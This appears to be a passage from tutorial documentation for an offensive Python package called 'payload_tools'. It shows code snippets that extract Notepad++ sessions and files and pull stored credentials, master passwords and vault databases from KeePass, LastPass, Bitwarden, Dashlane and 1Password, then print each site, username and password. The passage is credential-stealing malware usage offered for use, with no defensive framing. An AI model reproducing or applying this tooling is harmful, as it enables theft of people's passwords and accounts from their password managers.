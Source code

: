 ```python
```

#### Advanced Notepad++ Operations:
```python
# Extract session data
sessions = extractor.extract_sessions()

# Extract recent files
recent_files = extractor.extract_recent_files()

# Extract configuration
config = extractor.extract_configuration()

# Extract plugin data
plugins = extractor.extract_plugins()

# Extract file content
file_content = extractor.extract_file_content(file_path)
```

### 3. Password Manager Extractor Tutorial

#### Basic Usage:
```python
from payload_tools.PasswordManagers import PasswordManagerExtractor

# Initialize extractor
extractor = PasswordManagerExtractor()

# Extract password manager data
password_data = extractor.extract_password_data()

# Process data
for manager, data in password_data.items():
    print(f"Password Manager: {manager}")
    print(f"Credentials: {len(data['credentials'])}")
    print(f"Master Password: {data['master_password']}")
    print(f"Database Path: {data['database_path']}")
    print("-" * 40)
    
    # Process credentials
    for cred in data['credentials']:
        print(f"Site: {cred['site']}")
        print(f"Username: {cred['username']}")
        print(f"Password: {cred['password']}")
        print(f"Notes: {cred['notes']}")
        print("-" * 20)
```

#### Advanced Password Manager Operations:
```python
# Extract specific password managers
keepass_data = extractor.extract_keepass_data()
lastpass_data = extractor.extract_lastpass_data()
bitwarden_data = extractor.extract_bitwarden_data()
dashlane_data = extractor.extract_dashlane_data()
one_password_data = extractor.extract_1password_data()

# Extract master passwords
master_passwords = extractor.extract_master_passwords()

# Extract password databases
databases = extractor.extract_password_databases()

```
